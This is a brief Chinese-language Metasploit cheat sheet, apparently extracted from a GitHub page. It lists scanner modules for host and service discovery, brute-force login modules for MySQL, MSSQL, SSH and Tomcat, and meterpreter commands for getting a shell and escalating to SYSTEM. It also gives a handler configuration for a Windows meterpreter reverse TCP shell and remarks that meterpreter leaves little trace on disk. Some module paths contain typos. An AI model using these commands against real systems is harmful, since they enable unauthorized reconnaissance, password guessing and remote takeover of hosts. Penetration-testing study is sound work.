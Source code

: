 
## 常用模块

**信息收集**

利用 auxiliary 这个模块来获取目标网端的信息,包括端口开放情况、主机存活情况.
```bash
use auxiliary/scanner/discovery/arp_sweep       # arp 扫描
use auxiliary/scancer/smb/smb_version           # 存活的 445 主机
use auxiliary/scanner/portscan/syn              # 端口扫描
use auxiliary/scanner/telnet/telnet_version     # telent 服务扫描
use auxiliary/scanner/rdp/rdp_scanner           # 远程桌面服务扫描
use auxiliary/scanner/ssh/ssh_version           # ssh 主机扫描
use auxiliary/scanner/smb/smb_version           # smb 服务扫描
use auxiliary/scanner/ip/ipidseq                # IPID 序列扫描器
use auxiliary/scanner/mssql/mssql_ping          # mssql
use auxiliary/scanner/http/webdav_scanner       # webdav
```

**爆破**
```bash
use auxiliary/scanner/mysql/mysql_login         # mysql 爆破
use auxiliary/scanner/mssql/mssql_login         # mssql 爆破
use auxiliary/scanner/ssh/ssh_login             # SSH 爆破
use auxiliary/scanner/snmp/snmp_enum            # snmp_enum
use auauxiliary/scanner/http/tomcat_mgr_login   # tomcat 口令枚举
```

---

## meterpreter

meterpreter 除了持久化控制,其他的操作都在内存里面，不会写进物理磁盘。重启下各种痕迹就消失了。

### 快速上手

```bash
shell       # 获取目标主机的 cmd shell
getsystem   # 命令可以提权到本地系统权限
sysinfo     # 显示系统名,操作系统,架构和语言等.
```

### 获取会话

**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost <lhost>
set lport <lport>
exploit -j  # 后台执行
```

**cmdshell 升级为 meterpreter**
